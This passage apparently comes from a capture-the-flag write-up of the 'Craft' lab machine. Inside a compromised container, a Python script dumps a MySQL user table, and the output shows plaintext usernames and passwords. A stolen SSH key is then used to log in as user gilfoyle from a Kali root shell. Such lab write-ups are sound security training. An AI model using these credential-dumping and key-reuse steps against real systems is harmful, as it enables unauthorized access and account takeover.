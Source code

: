finally:  
connection.close()/opt/app # cat dbtestv1.py  
#!/usr/bin/env python

import pymysql  
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,  
user=settings.MYSQL_DATABASE_USER,  
password=settings.MYSQL_DATABASE_PASSWORD,  
db=settings.MYSQL_DATABASE_DB,  
cursorclass=pymysql.cursors.DictCursor)

try:  
with connection.cursor() as cursor:  
sql = "SELECT * FROM user"  
cursor.execute(sql)  
result = cursor.fetchall()  
print(result)

finally:  
connection.close()  
/opt/app # python dbtestv1.py  
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

root@kali:~# vim id_rsa  
root@kali:~# chmod 600 id_rsa  
root@kali:~# ssh gilfoyle@10.10.10.110 -i id_rsa

. * .. . * *  
* * @()Ooc()* o .  
(Q@*0CG*O() ___  
|\_________/|/ _ \  
| | | | | / | |  
| | | | | | | |  
| | | | | | | |  
| | | | | | | |  
| | | | | | | |  
| | | | | \_| |  
| | | | |\___/  
|\_|__|__|_/|  
\_________/

Enter passphrase for key 'id_rsa':  
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64
